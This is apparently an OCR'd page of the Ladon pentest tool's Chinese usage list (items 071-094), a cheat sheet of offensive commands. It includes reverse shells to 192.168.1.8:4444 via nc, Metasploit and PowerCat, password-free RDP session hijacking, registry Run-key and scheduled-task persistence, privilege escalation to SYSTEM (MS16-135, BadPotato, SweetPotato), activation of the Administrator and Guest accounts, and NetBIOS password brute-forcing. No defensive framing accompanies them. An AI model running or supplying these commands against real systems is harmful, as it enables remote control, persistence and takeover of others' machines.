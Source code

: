 ```
071 反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc
072 反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell
073 反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter
074 反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444
075 反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444
076 反弹TCP CMD & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd Ladon PowerCat 192.168.1.8 4444 psh
077 反弹UDP Cmd & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd udp Ladon PowerCat 192.168.1.8 4444 psh udp
078 RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3 Ladon RDPHijack 3 console
079 OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan Ladon 192.168.1.8/24 OxidScan
080 查看用户最近访问文件
Ladon Recent
081 添加注册表Run启动项
Ladon RegAuto Test c:\123.exe
082 AT计划执行程序(无需时间)(system权限)
Ladon at c:\123.exe Ladon at c:\123.exe gui
083 SC服务加启动项&执行程序(system权限）
Ladon sc c:\123.exe Ladon sc c:\123.exe gui Ladon sc c:\123.exe auto ServerName
084 MS16135提权至SYSTEM
Ladon ms16135 whoami
085 BadPotato服务用户提权至SYSTEM
Ladon BadPotato cmdline
086 SweetPotato服务用户提权至SYSTEM
Ladon SweetPotato cmdline
087 whoami查看当前用户权限以及特权
Ladon whoami
088 Open3389一键开启3389
Ladon Open3389
089 RdpLog查看3389连接记录
Ladon RdpLog
090 QueryAdmin查看管理员用户
Ladon QueryAdmin
091 激活内置管理员Administrator
Ladon ActiveAdmin
092 激活内置用户Guest
Ladon ActiveGuest
093 查看本机命名管道
Ladon GetPipe
094 139端口Netbios协议Windows密码爆破
Ladon 192.168.1.8/24 NbtScan
```

##### 示例
